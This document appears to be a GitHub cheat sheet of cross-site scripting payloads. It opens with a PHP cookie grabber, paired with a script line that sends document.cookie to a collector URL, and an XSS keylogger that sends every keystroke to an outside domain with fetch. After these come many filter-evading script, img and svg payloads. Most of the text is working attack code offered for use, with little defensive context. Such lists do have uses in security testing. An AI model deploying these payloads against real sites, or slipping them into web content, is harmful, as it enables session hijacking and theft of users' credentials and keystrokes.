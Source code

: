 # XSS-
XSS

# Cross Site Scripting
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

## Exploit code or POC

Cookie grabber for XSS
```
<?php
// How to use it
# <script>document.location='http://localhost/XSS/grabber.php?c=' + document.cookie</script>

// Write the cookie in a file
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);

?>
```

Keylogger for XSS
```
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

## Identify an XSS endpoint
```
<script>debugger;</script>
```

## XSS in HTML/Applications
XSS Basic
```
Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
```